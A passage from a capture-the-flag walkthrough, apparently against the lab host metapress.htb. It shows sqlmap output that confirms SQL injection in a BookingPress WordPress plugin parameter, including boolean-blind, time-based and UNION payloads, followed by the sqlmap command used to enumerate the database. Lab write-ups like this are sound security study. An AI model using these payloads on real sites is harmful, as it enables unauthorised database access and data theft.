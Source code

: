 ```SQL
[10:43:50] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:43:50] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[10:43:50] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[10:43:51] [INFO] target URL appears to have 9 columns in query
[10:43:52] [INFO] POST parameter 'total_service' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'total_service' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 48 HTTP(s) requests:
---
Parameter: total_service (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1) AND 1179=1179 AND (5714=5714

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1) AND (SELECT 3708 FROM (SELECT(SLEEP(5)))gLML) AND (2888=2888

    Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1) UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x7162717171,0x70536f744a6c56535468795050594841454258666b4a7a7257675a495659666d5a6b595466697348,0x71787a7671),NULL,NULL,NULL,NULL-- -
---
[10:43:54] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0, PHP 8.0.24
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:43:55] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/metapress.htb'

[*] ending @ 10:43:55 /2023-02-13/
```

So now that sqlmap knows that it is vulnerable I, further, enumerated the database.

```
sqlmap -u http://metapress.htb/wp-admin/admin-ajax.php --data 'action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1' -p total_service -- db
```

```
┌──(darshan㉿kali)-[~]
└─$ sqlmap -u http://metapress.htb/wp-admin/admin-ajax.php --data 'action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1' -p total_service -- db
        ___
       __H__                                                                                                                                           
 ___ ___[']_____ ___ ___  {1.7.2#stable}                                                                                                               
|_ -| . [']     | .'| . |                                                                                                                              
|___|_  [']_|_|_|__,|  _|                                                                                                                              
      |_|V...       |_|   https://sqlmap.org                                                                                                           

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
```